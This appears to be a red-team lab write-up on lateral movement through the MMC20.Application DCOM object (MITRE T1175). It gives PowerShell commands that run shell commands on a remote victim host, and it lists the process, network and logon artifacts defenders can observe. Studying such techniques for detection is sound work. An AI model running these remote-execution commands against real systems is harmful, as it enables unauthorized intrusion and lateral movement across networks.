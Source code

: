 ```yaml
---
description: Lateral Movement via Distributed Component Object Model
---
```


# T1175: Lateral Movement via DCOM

> The Microsoft Component Object Model \(COM\) is a platform-independent, distributed, object-oriented system for creating binary software components that can interact. COM is the foundation technology for Microsoft's OLE \(compound documents\), ActiveX \(Internet-enabled components\), as well as others.
>
> [https://docs.microsoft.com/en-us/windows/desktop/com/the-component-object-model](https://docs.microsoft.com/en-us/windows/desktop/com/the-component-object-model)

This lab explores a DCOM lateral movement technique using MMC20.Application COM as originally researched by @enigma0x3 in his blog post [Lateral Movement using the mmc20.application Com Object](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)

## Execution

MMC20.Application COM class is stored in the registry as shown below:

![](../../.gitbook/assets/dcom-registry.png)

Same can be achieved with powershell:

```csharp
Get-ChildItem 'registry::HKEY_CLASSES_ROOT\WOW6432Node\CLSID\{49B2791A-B1AE-4C90-9B8E-E860BA07F889}'
```

![](../../.gitbook/assets/dcom-registry2.png)

Establishing a connection to the victim host:

{% code title="attacker@victim" %}
```csharp
$a = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2"))
```
{% endcode %}

Executing command on the victim system via DCOM object:

{% code title="attacker@victim" %}
```csharp
$a.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c hostname > c:\fromdcom.txt","7")
```
{% endcode %}

Below shows the command execution and the result of it - remote machine's `hostname` command output is written to `c:\fromdcom.txt`:

![](../../.gitbook/assets/dcom-rce.png)

## Observations

Once the connection from an attacker to victim is established using the below powershell:

```csharp
[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2"))
```

This is what happens on the victim system - `svchost` spawns `mmc.exe` which opens a listening port via RPC binding:

![](../../.gitbook/assets/dcom-mmc-bind.png)

![](../../.gitbook/assets/dcom-listening.png)

![](../../.gitbook/assets/dcom-ancestry+connections.png)

A network connection is logged from 10.0.0.7 \(attacker\) to 10.0.0.2 \(victim\) via `offense\administrator` \(can be also seen from the above screenshot\):

![](../../.gitbook/assets/dcom-logon-event.png)

![](../../.gitbook/assets/dcom-connection2.png)

## References

{% embed url="https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-executeshellcommand" %}

{% embed url="https://docs.microsoft.com/en-us/dotnet/api/system.type.gettypefromclsid?view=netframework-4.7.2\#System\_Type\_GetTypeFromCLSID\_System\_Guid\_System\_String\_" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/com/com-technical-overview" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1175" %}


